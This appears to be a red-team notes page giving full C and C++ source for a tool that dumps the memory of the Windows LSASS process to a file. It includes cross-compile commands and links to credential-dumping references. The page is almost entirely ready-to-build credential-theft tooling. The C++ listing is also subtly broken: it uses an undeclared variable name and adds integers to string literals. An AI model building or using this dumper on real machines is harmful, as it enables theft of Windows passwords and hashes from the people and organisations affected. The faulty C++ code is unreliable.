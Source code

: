 # Dump LSASS

## C

```c
#include <stdio.h>
#include <windows.h>
#include <dbghelp.h>
#include <tlhelp32.h>

DWORD getProcessIdentifer() {
    HANDLE handle_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    if(handle_snapshot) {
        PROCESSENTRY32 process_entry;
        if(Process32First(handle_snapshot,&process_entry)) {
            do {
                if (strcmp(process_entry.szExeFile, "lsass.exe") == 0) {
                    return process_entry.th32ProcessID;
                }
            } while(Process32Next(handle_snapshot, &process_entry));
            CloseHandle(handle_snapshot);
        }
    }

    return -1;
}

INT main(int argc, char const *argv[]) {
    BOOL handle_dump;
    DWORD process_id;
    HANDLE process_handle;
    HANDLE handle_output;

    process_id = getProcessIdentifer();
    if (process_id == -1) {
        printf("[!] Failed to find lsass process.\n");
        return -1;
    }

    handle_output = CreateFile("lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (handle_output == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to create file for lsass dump.\n");
        return -1;
    }

    process_handle = OpenProcess(PROCESS_ALL_ACCESS, 0, process_id);
    if (process_handle == INVALID_HANDLE_VALUE) {
        printf("[!] Failed to get handle on lsass.\n");
        return -1;
    }

    // create and write the dump to the file
    handle_dump = MiniDumpWriteDump(process_handle, process_id, handle_output, 0x00000002, NULL, NULL, NULL);
    if (!handle_dump) {
        printf("[!] Failed to dump lsass.\n");
        return -1;
    }

    printf("[+] Successfully dumped lsass.\n");

    return 0;
}
```

Compile the memory dumper.

```
$ x86_64-w64-mingw32-gcc -O2 lsass-dump.c -o lsass-dump.exe \
-ldbghelp -mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

## CPP

```cpp
#include <iostream>
#include <windows.h>
#include <errhandlingapi.h>
#include <tlhelp32.h>
#include <dbghelp.h>
#pragma comment(lib, "dbghelp.lib")

int getProcessIdentifer(const char *process_name) {
    HANDLE handle_snapshot;
    PROCESSENTRY32 process_entry;
    int process_id = 0;
    BOOL handle_result;

    handle_snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if(INVALID_HANDLE_VALUE == handle_snapshot)
        return 0;

    process_entry.dwSize = sizeof(PROCESSENTRY32);

    handle_result = Process32First(handle_snapshot, &process_entry);

    while(handle_result) {
        if(strcmp(process_name, process_entry.szExeFile) == 0) {
            process_id = process_entry.th32ProcessID;
            break;
        }
        handle_result = Process32Next(handle_snapshot, &process_entry);
    }

    CloseHandle(handle_snapshot);
    return process_id;
}

void LSASSDump(int process_id) {
    HANDLE lsass_process;
    HANDLE memory_file = CreateFileA("creds.dmp", GENERIC_ALL, FILE_SHARE_READ, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (!memory_file) {
        std::cout << "[!] Error creating dump file! " + GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Dump file created successfully!" << std::endl;

    lsass_process = OpenProcess(0x00000028, TRUE, DWORD(process_id));
    if(!lsass_process) {
        std::cout << "[!] Couldn't open LSASS Process! " + GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Got a handle to the LSASS Process!" << std::endl;

    BOOL process_dump = MiniDumpWriteDump(lsassProcess, process_id, memory_file, MiniDumpWithFullMemory, NULL, NULL, NULL);
    if(!process_dump) {
        std::cout << "Error while calling MiniDumpWriteDump()" << std::endl;
        std::cout << GetLastError() << std::endl;
        exit(-1);
    }
    std::cout << "[+] Successfully conducted memory dump!" << std::endl;
}

int main(int argc, char *argv[]) {
    int process_id = 0;

    process_id = getProcessIdentifer(argv[1]);
    if(process_id == 0) {
	    std::cout << "PID not found! Terminating..." << std::endl;
        return -1;
    } else {
	    std::cout << "PID = " + process_id << std::endl;
    }

    LSASSDump(process_id);
    return 0;
}
```

Compile the memory dumper.

```
$ x86_64-w64-mingw32-g++ -O2 lsass-dump.cpp -o lsass-dump.exe \
-ldbghelp -mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

---
## References

### Microsoft

- [Microsoft Documentation: Crash Dump Analysis](https://learn.microsoft.com/en-us/windows/win32/dxtecharts/crash-dump-analysis)

- [WinAPI Documentation: `MiniDumpWriteDump`](https://learn.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)

### Red Team Notes

- [Red Team Notes: Dumping Lsass without Mimikatz with MiniDumpWriteDump](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass)

### Ricardo J. Ruiz Fernández

- [Ricardo J. Ruiz Fernández: Customizing Lsass Dumps with C++](https://ricardojoserf.github.io/lsassdumper/)

- [Ricardo J. Ruiz Fernández: Dumping lsass using only NTAPIs by hand-crafting Minidump files](https://ricardojoserf.github.io/nativedump/)